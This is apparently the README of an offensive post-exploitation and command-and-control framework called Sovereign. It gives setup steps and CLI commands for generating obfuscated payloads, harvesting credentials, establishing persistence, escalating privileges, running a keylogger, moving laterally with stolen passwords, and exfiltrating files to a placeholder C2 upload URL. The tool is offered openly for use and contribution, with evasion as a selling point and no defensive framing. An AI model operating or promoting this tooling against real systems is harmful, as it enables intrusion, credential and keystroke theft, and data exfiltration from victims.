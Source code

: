 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate_payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --log_file_path /path/to/log_file
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list-agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send-command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate-payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest-credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish-persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate-privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather-system-info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate-data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

9. **Starting a keylogger**:
    ```bash
    python cli/cli.py start-keylogger --log_file_path /path/to/log_file
    ```

10. **Moving laterally**:
    ```bash
    python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
```bash
python c2_server/c2_server.py generate-report
```
This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.

# By the way, we pwn things.....
